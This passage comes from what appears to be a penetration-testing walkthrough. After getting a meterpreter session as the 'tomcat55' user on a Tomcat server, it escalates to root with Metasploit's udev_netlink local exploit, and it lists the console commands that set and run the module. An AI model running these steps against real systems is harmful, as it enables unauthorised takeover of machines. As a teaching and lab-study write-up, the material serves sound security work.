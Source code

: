 ![](../images/manager_application_exploitation_on_tomcat_server_3.png)
Hence, we got a meterpreter session with the remote server as 'tomcat55' user.

### Post-Exploitation things
Since we have the remote access, but we has a shell as a 'tomcat55' user which is a normal user and we can't have the root access and So we can't able to see the sensitive file and content of the system due to limited access of our user. 
Here we are going to esculate the privilages to get the higher access to the system, like root user, so that we can completely control the target..

For that we had a metasploit module which can help us in privilege escalation, and also 'background the privious tomcat55 user session'.
```
msfconsole -q
msf > search udev_netlink
msf > use exploit/linux/local/udev_netlink
msf expliot(linux/local/udev_netlink) > show options
msf expliot(linux/local/udev_netlink) > set session 1
msf expliot(linux/local/udev_netlink) > run
```